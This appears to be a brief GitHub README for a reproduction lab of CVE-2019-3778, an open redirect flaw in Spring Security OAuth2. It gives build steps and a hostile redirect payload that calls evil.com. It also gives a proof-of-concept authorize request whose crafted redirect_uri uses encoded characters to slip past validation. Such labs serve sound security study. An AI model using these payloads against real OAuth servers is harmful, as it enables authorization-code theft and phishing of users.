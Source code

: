 # [CVE-2019-3778]Spring-Security-OAuth2 Open Redirection

### Description
![](./2.png)

### Environment

1. load the sql file
2. change the username and password of the database.
3. ```mvn install```
4. ```java -jar xxxx.jar```


### EXP

```http://evil.com%ff@good.com```

### PoC

```http://localhost:9090/oauth/authorize?response_type=code&client_id=ananaskr&redirect_uri=http://www.google.com%EF%BC%8F@www.baidu.com&scope=all&client_secret=123456```

![](./1.png)


